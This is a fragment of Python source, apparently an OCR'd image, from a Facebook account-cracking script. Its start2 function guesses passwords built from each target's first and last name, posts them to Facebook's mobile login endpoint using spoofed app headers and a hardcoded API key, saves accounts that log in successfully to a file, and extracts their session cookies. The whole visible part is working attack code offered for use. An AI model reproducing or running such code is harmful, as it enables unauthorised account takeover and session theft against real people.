         loop += 1
     except Exception as e:time.sleep(10)
   


 
    def start2(user):
      global loop,accounts
      try:
        r = requests.Session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;91m[\033[1;97mJXS-M2\033[1;91m]\033[1;97m {}-{} \033[1;91m[\033[1;97m{}\033[1;91m] \033[1;97mOK : \033[1;92m{} \033[1;97mCP : \033[1;91m{}      \r'.format(str(loop), str(len(accounts)), pers , str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:
            heads = None
            header = {"Content-Type": "application/x-www-form-accencoded","Host": "graph.facebook.com","User-Agent": heads,"X-FB-Net-HNI": "45204","X-FB-SIM-HNI": "45201","X-FB-Connection-Type": "unknown","X-Tigon-Is-Retry": "False","x-fb-session-id": "nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","X-FB-Friendly-Name": "ViewerReactionsMutation","X-FB-Request-Analytics-Tags": "graphservice","Accept-Encoding": "gzip, deflate","X-FB-HTTP-Engine": "Liger","X-FB-Client-IP": "True","X-FB-Server-Cluster": "True","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","Connection": "Keep-Alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_US","client_country_code": "US","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=False)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;97mShezii😍-OK\033[1;92m] \033[1;97m'+acc+' \033[1;92m✓\033[1;97m '+pword+'  ')
                open('/sdcard/Shezii😍-OK.txt','a').write(f'{acc} ✓ {pword}\n')
                if 'y' in apps:
                	check(r,coki)
                if c=='y':
                 try:  
                  q = json.loads(response.text)
                  ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                  ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                  cookies = f"sb={ssbb};{ckkk}"
                 except Exception as e:print(str(e)+' | '+response.text)
                 print('\r\033[1;93m[\033[1;97mCookie\033[1;93m] \033[1;97m'+cookies)                
                 break
            elif 'checkpoint' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;97mShezii😍-CP\033[1;91m] \033[1;97m'+acc+' \033[1;91m✓\033[1;97m '+pword)